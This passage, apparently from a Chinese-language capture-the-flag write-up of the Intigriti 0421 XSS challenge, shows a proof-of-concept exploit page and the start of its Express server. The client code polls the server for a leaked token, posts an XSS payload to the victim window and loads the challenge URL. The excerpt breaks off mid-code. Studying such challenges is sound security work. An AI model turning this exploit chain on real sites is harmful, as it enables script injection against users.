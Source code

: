 ``` html
      fetch(baseUrl + '/polling').then(res => res.text()).then((token) => {

        // guess fail, restart
        if (token === '1zz') {
          fetch(baseUrl + '/reset').then(() => {
            console.log('guess fail, restart')
            start()
          })
          return
        }

        if (token.length >= 10) {
          window.xssWindow.postMessage({
            type: 'waf',
            identifier: token,
            str: '<img src=xxx onerror=alert("flag{THIS_IS_THE_FLAG}")>',
            safe: true
          }, '*')
        }

        window.xssWindow.location = `https://challenge-0421.intigriti.io/?error=${payload}#${token}`

        // After POC finsihed, polling will timeout and got error message, I don't want to print the message
        if (token.length > 20) {
          return
        }

        console.log('token:', token)
        polling()
      })
    }
  </script>
</html>
```

寫得很隨便很醜而且有 bug 的 server side code：

``` js
var express = require('express')

const app = express()

app.use(express.static('public'));
app.use((req, res, next) => {
  res.set('Access-Control-Allow-Origin', '*');
  next()
})

const handlerDelay = 100
const loopDelay = 550

var initialData = {
  count: 0,
  token: '1',
  canStartLoop: false,
  loopStarted: false,
  canSendBack: false
}
var data = {...initialData}

app.get('/reset', (req, res) => {
  data = {...initialData}
```